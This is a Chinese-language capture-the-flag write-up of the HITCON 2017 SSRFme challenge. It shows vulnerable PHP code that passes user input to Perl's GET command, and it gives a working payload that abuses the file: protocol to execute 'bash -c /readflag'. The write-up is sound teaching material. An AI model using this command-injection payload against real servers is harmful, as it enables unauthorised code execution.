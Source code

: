 # \[HITCON 2017]SSRFme

## \[HITCON 2017]SSRFme

## 考点

* perl脚本GET open命令漏洞

## wp

直接给出了代码

```php
<?php
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }

    echo $_SERVER["REMOTE_ADDR"];

    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);

    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    @mkdir($dir);
    @chdir($dir);
    @file_put_contents(basename($info["basename"]), $data);
    highlight_file(__FILE__);
```

pathinfo函数以数组的形式返回关于文件路径的信息，返回的数组元素如下：

* \[dirname]：目录路径
* \[basename]：文件名
* \[extension]：文件后缀名
* \[filename]：不包括后缀的文件名

传入url参数，与`GET` 进行拼接后再执行

传入filename参数，新建filename文件，将执行的结果存在传入的文件中

GET是Lib for WWW in Perl的命令，底层调用了open，pen存在命令执行，并且还支持file函数

读取根目录`?url=/&filename=1`，可以看到得到的目录链接都是`file:///bin/`这种形式

由于是利用file协议，所以后面跟的payload必须以文件的形式存在，所以getshell时后面的filename参数要和执行的命令一样

```
?url=file:bash -c /readflag|&filename=bash -c /readflag|
```

再去访问`sandbox/230317844a87b41e353b096d0d6a5145/bash -c /readflag|`即可

## 小结

1. [https://www.cnblogs.com/remon535/p/13089590.html](https://www.cnblogs.com/remon535/p/13089590.html)
